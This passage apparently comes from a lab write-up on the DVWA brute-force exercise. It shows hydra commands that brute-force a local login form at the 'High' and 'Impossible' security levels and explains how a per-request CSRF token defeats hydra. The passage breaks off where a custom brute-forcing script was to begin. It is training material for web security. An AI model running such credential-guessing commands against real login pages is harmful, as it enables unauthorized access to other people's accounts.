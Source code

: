 ## Security: High

1. Same concept as before, this time changing `security=medium` to `security=high`:

	```shell
	hydra -L usernames.txt -P passwords.txt 127.0.0.1 -s 42001 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=ud36qu65oddvmncfg54n515nhn; security=high:F=Username and/or password incorrect." -t 30
	```

	![](high_hydra.png)

	> What's the difference between `Medium` and `High`? The source code adds an Anti-CSRF token, but seems not to work here.

## Security: Impossible

Resources to read:
- OWASP: [Cross Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf)

> The CSRF token is used to add credibility to the origin of the request being received by the server, this token is a impossible to guess random number generated by the server and is sent along with our GET request.

1. Using the `hydra` command won't work this time (`100 valid passwords found` --> all combinations):

	```shell
	hydra -L usernames.txt -P passwords.txt 127.0.0.1 -s 42001 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=ud36qu65oddvmncfg54n515nhn; security=impossible:F=Username and/or password incorrect." -t
	30
	```

	![](impossible_hydra.png)

2. Due to the added CSRF token, `hydra` can't brute force the credentials. It does not have the ability to collect the CSRF token while making the request:

	![](csrf_token.png)

	![](hidden_to_text.jpg)

	![](token_appearance.png)

	The CSRF token (`user_token`) changes on every attempted login:

	![](impossible_burp_proxy_user_token.png)

	![](impossible_burp_proxy_user_token1.png)

3. Create a custom brute-forcing script:
